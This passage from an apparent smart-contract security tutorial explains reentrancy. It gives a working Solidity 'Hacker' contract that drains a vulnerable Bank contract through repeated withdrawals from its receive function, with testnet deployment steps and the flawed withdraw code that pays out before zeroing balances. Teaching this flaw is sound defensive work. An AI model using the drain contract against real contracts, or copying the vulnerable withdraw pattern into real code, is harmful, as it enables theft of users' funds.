 Now we will create the Attacker contract, that will drain the Bank contract using the `receive` fallback function

```java
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract Hacker {
    Bank bank;

    constructor(address _a) {
        bank = Bank(_a);
    }

    // returns the balance of the contract
    function getBalance() public view returns(uint256){
        return address(this).balance;
    }

    // attack the bank contract
    function attack() public payable {
        require(msg.value >= 1 ether);
        bank.addToBalance{value: msg.value}();
        bank.withdrawBalance();
    }

    // fallback function which is called when the bank contract sends the ether
    receive() external payable {
        if(bank.getBalance() > 0){
            bank.withdrawBalance();
        }
    }
}
```

To understand the flow, first deploy the `Bank` contract in the testnet and deposit 1 or more ether from multiple accounts/wallets. Now deploy the `Hacker` contract. Pass the `Bank` contract's address while deploying. Call the `attack()` function of the `Hacker` contract with 1 ether value. After the call, you will notice that the balance of `Bank` contract will be 0 and all the ether which was in `Bank` is transferred to `Hacker`.

What is happening here is, when we call the `attack()` function, the `Hacker` contract first deposits 1 ether in the ` Bank` contract. After that `Hacker` calls the `Bank.withdrawBalance()` function. By calling the `withdrawBalance()` function, the `Bank` transfers the userBalnce of `Hacker` i.e. 1 ether to `Hacker`.

Now in `Hacker` we have defined the fallback function `receive()` which is called when the 1 ether is transferred to the contract. In the `receive()` function, we are again calling the `withdrawBalance()`.

Now understand the `withdrawBalance()` function flow in this case from the following snippet

```js
function withdrawBalance() public payable  {
    (bool sent, ) = msg.sender.call{value: userBalance[msg.sender]}("");
    // . --> receive() is called at his point after transferring and before updating the userBalance
    userBalance[msg.sender] = 0;
}
```
